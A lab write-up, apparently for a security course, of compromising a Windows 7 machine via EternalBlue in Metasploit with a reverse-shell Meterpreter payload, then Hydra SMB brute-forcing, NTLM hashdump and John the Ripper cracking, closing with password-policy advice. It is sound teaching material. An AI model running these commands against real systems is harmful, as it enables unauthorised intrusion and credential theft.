

# Milestone 3: Windows Password Attacks via EternalBlue Exploitation

## 1. Overview
This milestone focuses on exploiting a Windows 7 machine using the EternalBlue vulnerability (MS17-010), followed by credential harvesting, online and offline password cracking, and post-exploitation validation using SMB and RPC services. This exercise simulates realistic attack vectors and highlights the risks associated with weak password policies and credential reuse.

## 2. Environment Setup and Tools

- **Target:** Windows 7 SP1 (vulnerable to MS17-010)
- **Attacker:** Kali Linux (2023.4)
- **Tools Used:**
  - Metasploit Framework
  - Hydra
  - John the Ripper
  - rpcclient / smbclient
  - nano, cat (for wordlists)

---
## 3. Exploitation and Credential Discovery

### 3.1 Exploitation of MS17-010 (EternalBlue)

**Objective:** Gain remote code execution by exploiting a vulnerable SMB service on the Windows 7 target.

**Steps Taken:**
1. Scan the target to confirm port 445 is open:
   ```bash
   nmap -p 445 --script smb-vuln-ms17-010 192.168.57.20
   ```
   - `-p 445` specifies the SMB port.
   - `--script smb-vuln-ms17-010` runs the NSE script to detect MS17-010 vulnerability.

2. Launch Metasploit and configured the EternalBlue module:
   ```bash
   use exploit/windows/smb/ms17_010_eternalblue
   set RHOST 192.168.57.20
   set PAYLOAD windows/x64/meterpreter/reverse_tcp
   set LHOST 192.168.57.10
   exploit
   ```
   - `RHOST`: Target IP address
   - `LHOST`: Attacker IP address
   - `PAYLOAD`: Specifies the type of reverse shell

**Results:**
- The target was confirmed as vulnerable to MS17-010.
- The exploit succeeded, and a Meterpreter session was opened with SYSTEM-level access.


**Figure 1:** Meterpreter setting EternalBlue module.


**Figure 2:** Meterpreter session established post-exploitation.


---
### 3.2 User Enumeration

**Objective:** Identify valid user accounts on the compromised host for further password attacks.

**Steps Taken:**
1. In Meterpreter:
   ```bash
   shell
   net user
   ```
2. Identify local users: Administrator, student, Guest.

**Results:**
- Enumerated users confirmed valid accounts that could be targeted for password attacks.


**Figure 3:** User enumeration output from `net user`.

---
### 3.3 Custom Wordlist Creation

**Objective:** Build targeted user and password lists based on known usernames and common password patterns.

**Steps Taken:**
1. Create `users.txt` and `wordlist.txt` using `nano`.
2. Verify with `cat` command.

**Results:**
- Successfully created and confirmed presence of valid username and password lists.

**Figure 3:** Contents of `users.txt` and `wordlist.txt`.

---
### 3.4 Online Cracking with Hydra

**Objective:** Attempt to discover valid credentials by performing a brute-force attack over SMB.

**Steps Taken:**
1. Run Hydra:
   ```bash
   hydra -L users.txt -P wordlist.txt smb://192.168.57.20
   ```
   - `-L`: Specifies the user list file
   - `-P`: Specifies the password list file
   - `smb://`: Protocol and target IP

**Results:**
- Found valid credentials: `student : P@ssw0rd`

**Figure 4:** Hydra output showing successful login.

---
### 3.5 Credential Verification

**Objective:** Confirm the validity of cracked credentials using standard SMB and RPC authentication methods.

**Steps Taken:**
1. Test credentials using:
   ```bash
   smbclient -L //192.168.57.20/ -U student
   rpcclient -U student 192.168.57.20
   ```
2. Access was granted to the student and Administrator account.

**Results:**
- Verified that the `student` and Administrator account was active and accessible.


**Figure 5:** `smbclient` successful for `student` and `Administrator`.

---
## 4. Bonus: Offline Password Cracking with John the Ripper

### 4.1 Hash Extraction

**Objective:** Extract NTLM password hashes from the compromised system for offline analysis.

**Steps Taken:**
1. In Meterpreter:
   ```bash
   hashdump
   ```
2. Save output to `hashes.txt`

**Results:**
- NTLM hashes for local users were successfully extracted.

**Figure 6:** Extracted NTLM hashes.

---
### 4.2 Password Cracking with John

**Objective:** Perform offline cracking of NTLM hashes using a custom wordlist.

**Steps Taken:**
1. Verified format:
   ```bash
   john --list=formats | grep NT
   ```
2. Execute John:
   ```bash
   john --format=NT --wordlist=wordlist.txt hashes.txt
   ```
3. Display results:
   ```bash
   john --show hashes.txt
   ```

**Results:**
- Both `student` and `Administrator` use `P@ssw0rd`.

**Figure 7:** John cracking output.

---
## 5. Conclusions

This assessment confirmed that:

- EternalBlue (MS17-010) enabled full system compromise.
- Password reuse (`P@ssw0rd`) across `student` and `Administrator` accounts presents a critical risk.
- Online brute-forcing tools like Hydra can return false positives, stressing the importance of validation.
- Offline cracking with John the Ripper reliably identified valid credentials.
  
Organizations must enforce strong password policies, monitor credential reuse, apply timely patches, and restrict admin access to mitigate such attacks.

---

